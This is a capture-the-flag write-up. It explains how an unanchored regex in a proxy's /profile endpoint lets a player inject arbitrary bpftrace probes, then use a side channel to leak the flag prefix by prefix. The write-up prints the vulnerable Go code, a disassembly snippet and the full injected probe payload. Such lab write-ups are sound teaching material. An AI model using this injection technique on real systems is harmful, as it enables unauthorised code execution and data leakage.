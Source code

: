 # Totally Not Brute Force Writeup

The challenge consists of two services: a proxy the player can interact with 
and the flagservers responsible for verifying the flag. The players can only 
communicate with the proxy service and the flagservers are not directly 
accessible.

Each flagserver is responsible for verifying a prefix of the flag increasing in 
length. The proxy handles players' request to check whether the flag is 
correct, queries all flagservers and combines their responses.

The proxy service has three endpoints and all of them an be accessed by the 
players.

The `/status` endpoint is the least interesting one, since it only checks the 
connectivity of all of the services and can be used in a healthcheck.

The `/` endpoint handles the flag checking logic, calls the flagservers over 
gRPC and combines the responses from them.

```go
params := r.URL.Query()
f, ok := params["flag"]
if !ok || len(f) < 1 {
    w.WriteHeader(http.StatusOK)
    fmt.Fprint(w, index)
    return
}

result := true
for _, client := range clients {
    req := &proto.CheckFlagRequest{Flag: f[0]}
    res, err := client.CheckFlag(r.Context(), req)
    if err != nil {
        log.Println("error while checking flag:", err, "request:", req)
        w.WriteHeader(http.StatusInternalServerError)
        return
    }

    result = result && res.GetOk()
}

if result {
    w.WriteHeader(http.StatusOK)
    fmt.Fprintln(w, "ok")
    return
}

w.WriteHeader(http.StatusForbidden)
```

It is possible to deduce from the proxy configuration that the flag is 20 
character long. All flagservers are always called and the response is combined 
in a way that should make timing attacks impossible, so some side-channel is 
needed to make solving this challenge better than brute force.

The `/profile` handler runs a profiler called 
[`bpftrace`](https://github.com/iovisor/bpftrace) to collect the stack traces 
for the user-controlled duration (with the default being 5 seconds).

```go
params := r.URL.Query()

timeout := "5"
if ts, ok := params["t"]; ok && len(ts) > 0 {
    timeout = ts[0]
}

if !pattern.Match([]byte(timeout)) {
    log.Println(timeout, "did not match the pattern")
    w.WriteHeader(http.StatusInternalServerError)
    return
}

f, err := os.CreateTemp("", "probe*.bt")
if err != nil {
    log.Println("can't write a temporary file", err)
    w.WriteHeader(http.StatusInternalServerError)
    return
}
defer os.Remove(f.Name())

s := "interval:s:" + timeout + " { exit() } profile:hz:99 /pid == $1/ { @[ustack] = count() }\n"
f.WriteString(s)
f.Close()
```

The timeout parameter needs to pass a validation for numeric values, but the 
regexp is not anchored, so any user controlled input can be smuggled as long as 
it contains a single digit.

This enables inserting arbitrary probes (breakpoints) into the kernel or 
userspace and execute eBPF programs when they are hit. Unfortunately for the 
player the flagservers do not run on the same kernel the proxy does and the 
flag cannot be extracted directly from them.

The ability to inject arbitrary probes enables the players to construct a side 
channel by inserting a breakpoint right after the call to `res.GetOk()`.

The function handling flag checking is compiled as `main.main.func2`. 
Disassembling it in Delve yields the following snippet:

```
main.go:90      0x88b6bf        0fb64c243f              movzx ecx, byte ptr 
[rsp+0x3f]
main.go:90      0x88b6c4        84c9                    test cl, cl
main.go:90      0x88b6c6        740f                    jz 0x88b6d7
flag.pb.go:111  0x88b6c8        4885c0                  test rax, rax
flag.pb.go:111  0x88b6cb        7406                    jz 0x88b6d3
flag.pb.go:112  0x88b6cd        0fb64828                movzx ecx, byte ptr [rax+0x28]
main.go:90      0x88b6d1        eb06                    jmp 0x88b6d9
main.go:90      0x88b6d3        31c9                    xor ecx, ecx
main.go:90      0x88b6d5        eb02                    jmp 0x88b6d9
```

Breaking at `0x88b6d1` (`main.main.func2+657`) and inspecting the `cx` register 
leaks information whether the checked prefix was correct or not.

Since arbitrary memory can be accessed from the probe, the payload can also 
dump the prefix that was sent in the HTTP2 request, it only requires chasing 
a bunch of pointers.

The payload is designed to check multiple prefixes, which means that it needs 
to implement a counter. The state can be shared between probes by using BPF 
maps, however they need to be keyed by something. Using the thread ID doesn't 
work in Go and instead the goroutines need to be deanonymised to correctly 
trace the hit counts. Luckily `runtime.execute` function is always called 
before a goroutine is scheduled with a pointer to `g` struct, which is enough 
for our purposes. Full tracer payload can be found below:

```
2137 /1==0/ {}
uprobe:{{ .ExePath }}:runtime.execute {
  @gids[tid] = reg("ax");
}
uprobe:{{ .ExePath }}:main.main.func2 {
  $gid = @gids[tid];
  delete(@hit[$gid]);
}
uprobe:{{ .ExePath }}:main.main.func2+657 /reg("cx") != 0/ {
  $gid = @gids[tid];
  @hit[$gid]++;
  if (@hit[$gid] != {{ .Iter }}) { return; }

  $sp = reg("sp");
  $ptr = $sp + 96;
  printf("XXXX %r XXXX\n", buf(**$ptr, *(*$ptr+8)));
  exit();
}
//
```

The tracer payload will exit after the correct prefix is found, so it can be 
ran in the background while the requests brute-forcing the prefix are ran in 
parallel. After repeatedly running it to extract each prefix, the full flag is 
obtained.

Full solver is available in `main.go` and it needs approximately 30 minutes to 
extract the flag.
